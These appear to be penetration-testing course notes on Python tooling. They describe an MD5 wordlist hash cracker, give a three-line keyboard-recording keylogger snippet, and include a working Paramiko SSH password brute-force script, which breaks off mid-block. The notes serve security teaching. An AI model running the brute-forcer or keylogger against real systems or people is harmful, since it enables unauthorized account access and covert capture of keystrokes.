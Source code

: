The script below follows an approach close to the one described above;
1. Asks for the location of a wordlist
2. Asks for the hash to be cracked
3. Reads values from the wordlist (one per line)
4. Converts cleartext values to MD5 hash values
5. Compares the generated MD5 hash value with the value entered by the user
	![[Pasted image 20240905153330.png]]

## **Keyloggers**
Modules allow us to solve relatively difficult problems in a simple way.  A good example is the “keyboard” module, which allows us to interact with the keyboard.  
`pip3 install keyboard`.

Using the keyboard module, the following three lines of code would be enough to record and replay keys pressed:
```python
import keyboard
keys = keyboard.record(until ='ENTER')
keyboard.play(keys)
```

## **SSH Brute Forcing**
The powerful Python language is supported by a number of modules that easily extend its capabilities. `Paramiko` is an SSHv2 implementation that will be useful in building SSH clients and servers.

The example below shows one way to build an SSH password brute force attack script. As is often the case in programming, there rarely is a single correct answer for these kinds of applications. As a penetration tester, your usage of programming languages will be different for developers. While they may care about best practices and code hygiene, your goal will more often be to end with a code that works as you want it to.
```python
import paramiko
import sys
import os

target = str(input('Please enter target IP address: '))
username = str(input('Please enter username to bruteforce: '))
password_file = str(input('Please enter location of the password file: '))

def ssh_connect(password, code=0):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(target, port=22, username=username, password=password)
    except paramiko.AuthenticationException:
        code = 1
    ssh.close()
    return code

with open(password_file, 'r') as file:
    for line in file.readlines():
        password = line.strip()
        
        try:
            response = ssh_connect(password)

            if response == 0:
                 print('password found: '+ password)
                 exit(0)
            elif response == 1: 
                print('no luck')
        except Exception as e:
```
